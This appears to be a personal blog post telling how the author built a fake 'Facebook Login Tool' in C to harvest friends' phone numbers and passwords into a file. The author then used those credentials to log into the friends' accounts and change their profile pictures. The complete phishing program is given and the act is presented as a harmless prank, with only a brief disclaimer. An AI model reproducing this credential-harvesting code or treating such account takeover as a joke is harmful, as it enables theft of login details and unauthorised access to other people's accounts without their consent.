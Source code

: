 +++
title = 'C-razy Facebook Hack: How I Pranked My Friend'
date = 2024-08-18T09:45:17.1717+05:30
draft = false
tags =['hacking','prank']
+++ 


It was my first year of college, and we were all working in the Python lab. My friends, who didn’t really know much about computers, seemed like the perfect targets for a harmless prank. They were excited but didn’t have a clue about the technical stuff I was up to. I saw an opportunity to have a little fun, knowing they’d fall for it because they didn’t know much about programming.

### The Master Plan

I wanted to play a trick on my friends to show them how powerful C programming is. But it was all just a joke! Here’s how I did it:

**Creating the Fake Program**: I wrote a simple C program that looked like a Facebook login tool. But it was just a trick. The program would ask for their Facebook username and password, and then say “Facebook is down”!

**Playing the Prank**: I ran the program in front of my friends, and they typed in their phone numbers and passwords. I acted like I was trying to fix the problem, but I was really trying not to laugh.

**The Big Reveal**: After my friends left, I opened the file where I had saved their login information. I used it to log into their Facebook accounts and change their profile pictures to something really embarrassing and funny. Even I couldn’t help but laugh!”

### The Program

Here’s the mischievous code I used for the prank. **Disclaimer: This is for entertainment purposes only!**

```c
#include <stdio.h>

int main() {
    char phoneNumber[50];
    char password[50];
    FILE *file;

    // Open the file to store credentials
    file = fopen("credentials.txt", "a");
    if (file == NULL) {
        printf("Error opening file!\n");
        return 1;
    }

    // Ask for user details
    printf("Welcome to the Facebook Login Tool!\n");
    printf("Please enter your phone number: ");
    fgets(phoneNumber, 50, stdin);
    printf("Please enter your password: ");
    fgets(password, 50, stdin);

    // Store the credentials in a file
    fprintf(file, "Phone Number: %s", phoneNumber);
    fprintf(file, "Password: %s", password);

    // Close the file
    fclose(file);

    // Display a fake error message
    printf("Unable to reach Facebook at the moment. Please try again later.\n");

    return 0;
}

```

### What Happened Next

The next day, my friends came to college and told me that their Facebook profiles had been changed to show them in silly costumes or funny pictures. They were shocked and little scared.

They told me that their accounts had been hacked. But after some fun and teasing, I finally told them the truth - that I was the one who had done it as a prank. We all had a good laugh together and the fun came to an end.

### The Lesson

Here's the important part: **don't do this at home**. While my prank was just for fun, playing with people's personal information is not okay. It's important to respect people's privacy and use your coding skills in a good way.

### The Main Point

If you want to play a prank, make sure it's harmless and makes everyone smile. Use your coding skills for good things and keep your pranks light-hearted. Remember, there's a line between being funny and being mean online.

Happy coding, and may your pranks be fun and harmless!